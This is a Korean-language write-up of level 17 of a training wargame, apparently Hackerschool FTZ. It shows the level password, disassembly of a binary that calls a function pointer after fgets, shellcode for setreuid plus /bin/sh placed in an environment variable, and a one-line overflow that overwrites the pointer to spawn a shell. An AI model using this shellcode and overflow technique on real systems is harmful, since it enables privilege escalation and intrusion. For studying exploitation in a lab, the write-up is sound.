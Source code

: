 # level 17

* id : `level17`
* pw : `king poetic`

![](./img/2021-11-10-14-58-46.png)

음.. 이번엔 `call` 함수에 쉘코드를 실행하게끔 하면 될듯 하다.


```python
0x080484a8 <main+0>:    push   ebp
0x080484a9 <main+1>:    mov    ebp,esp
0x080484ab <main+3>:    sub    esp,0x38                     # 할당받은 버퍼 크기
0x080484ae <main+6>:    mov    DWORD PTR [ebp-16],0x8048490 # printit() 의 주소
0x080484b5 <main+13>:   sub    esp,0x4
0x080484b8 <main+16>:   push   ds:0x804967c
0x080484be <main+22>:   push   0x30
0x080484c0 <main+24>:   lea    eax,[ebp-56]                 # buf 주소
0x080484c3 <main+27>:   push   eax
0x080484c4 <main+28>:   call   0x8048350 <fgets>
0x080484c9 <main+33>:   add    esp,0x10
0x080484cc <main+36>:   sub    esp,0x8
0x080484cf <main+39>:   push   0xc1a
0x080484d4 <main+44>:   push   0xc1a
0x080484d9 <main+49>:   call   0x8048380 <setreuid>
0x080484de <main+54>:   add    esp,0x10
0x080484e1 <main+57>:   mov    eax,DWORD PTR [ebp-16]
0x080484e4 <main+60>:   call   eax
0x080484e6 <main+62>:   leave
0x080484e7 <main+63>:   ret
```

이전에 푼 문제들처럼, 환경변수를 이용한 익스를 짜보겠다.

```bash
export EGG=$(python -c 'print "\x31\xc0\xb0\x31\xcd\x80\x89\xc3\x89\xc1\x31\xc0\xb0\x46\xcd\x80\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80"')
env | grep EGG
```

![](./img/2021-11-10-15-01-23.png)

쉘코드 환경변수 주소는 `0xbffffc7a` 임을 확인, 이를 *(call) 에 뒤집어씌우면 성공이다.

```bash
(python -c "print 'A'*40 + '\x7a\xfc\xff\xbf'" ; cat) | ./attackme
```

![](./img/2021-11-10-15-02-51.png)


GG!
